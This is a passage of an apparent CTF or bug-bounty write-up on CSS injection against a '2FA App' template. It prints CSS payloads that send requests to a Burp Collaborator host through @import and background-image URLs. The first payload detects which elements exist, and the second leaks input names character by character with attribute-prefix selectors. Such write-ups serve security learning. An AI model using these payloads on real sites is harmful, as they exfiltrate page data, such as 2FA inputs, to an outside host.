 ```css
/**
Template for the UNI 2FA App
 */

@import url('https://s3wim2k8iatrcox0fd75c3pjmas2gr.burpcollaborator.net/import.css');

body {
    background-image: url("https://s3wim2k8iatrcox0fd75c3pjmas2gr.burpcollaborator.net/body");
}
input{
    background-image: url("https://s3wim2k8iatrcox0fd75c3pjmas2gr.burpcollaborator.net/input");
}
div{
    background-image: url("https://s3wim2k8iatrcox0fd75c3pjmas2gr.burpcollaborator.net/div");
}
button{
    background-image: url("https://s3wim2k8iatrcox0fd75c3pjmas2gr.burpcollaborator.net/button");
}
```

With this CSS, I know if the CSS file was correctly imported (because I received the import request) and if almost one HTML element exists. 

In this case, my collaborator recieved 3 requests.
1. /import.css
2. /input
3. /div

I followed my instinct and continued with the input first, and if it didn't work I would continue with the div.
The second version was similar to the blog approach, but in my case, I needed first the name of the input
```css
/**
Template for the UNI 2FA App
 */

@import url('https://s3wim2k8iatrcox0fd75c3pjmas2gr.burpcollaborator.net/import.css');

body {
    background-image: url("https://s3wim2k8iatrcox0fd75c3pjmas2gr.burpcollaborator.net/body");
}
input{
    background-image: url("https://s3wim2k8iatrcox0fd75c3pjmas2gr.burpcollaborator.net/input");
}
input[name^=a]{
    background-image: url("https://s3wim2k8iatrcox0fd75c3pjmas2gr.burpcollaborator.net/inputa");
}
input[name^=b]{
    background-image: url("https://s3wim2k8iatrcox0fd75c3pjmas2gr.burpcollaborator.net/inputb");
}
...
input[name^=8]{
    background-image: url("https://s3wim2k8iatrcox0fd75c3pjmas2gr.burpcollaborator.net/input8");
}
input[name^=9]{
    background-image: url("https://s3wim2k8iatrcox0fd75c3pjmas2gr.burpcollaborator.net/input9");
}
```
